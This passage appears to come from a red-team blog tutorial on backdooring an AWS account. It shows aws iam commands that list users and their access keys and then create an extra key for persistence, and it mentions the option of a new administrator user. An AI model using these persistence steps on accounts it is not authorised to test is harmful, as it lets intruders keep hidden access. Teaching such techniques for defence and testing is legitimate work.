 <div style="width:100%;height:0;padding-bottom:56%;position:relative;"><iframe src="https://giphy.com/embed/3o7btM5BFkNtIzwm52" width="100%" height="100%" style="position:absolute" frameBorder="0" class="giphy-embed" allowFullScreen></iframe></div><p><a href="https://giphy.com/gifs/hbsc-hertha-bsc-berlin-jubel-3o7btM5BFkNtIzwm52">via GIPHY</a></p>


### Creating Access Key
We can follow the below-mentioned steps to achieve persistence:

- Create a new user and then create their access key for later use.
  - We will also attach the administratorAccess Policy so this user has elevated privileges.
- Create an access key for the existing user in the environment.
  - We will make sure that this user has a maximum of 1 key active before creating a new one.

Since either of the above will give us what we want, I will show only the 2nd method (leaving 1st one for you, make sure to try it out).

We will start by listing all users in the target account and then selecting one (or as many as we want) target user.

```bash
aws iam list-users
```

![](/assets/img/posts/methods-to-backdoor-an-aws-account/case-03-03-List-Existing-Users.png)
_Listing users in the current account_

Here, we were selected a user `backdoor-case-03-user`. Next, we will list the active keys of this user, and once we are sure that they only have 1 key right now, we will create another for them and save it for our later use:

```bash
# List current access keys of the specified user
aws iam list-access-keys --user-name backdoor-case-03-user

# Create an access key for the specified user.
aws iam create-access-key --user-name backdoor-case-03-user
```

![](/assets/img/posts/methods-to-backdoor-an-aws-account/case-03-04-List-and-Create-Access-Key-of-Existing-User.png)
_List and create an access key for the specified user._
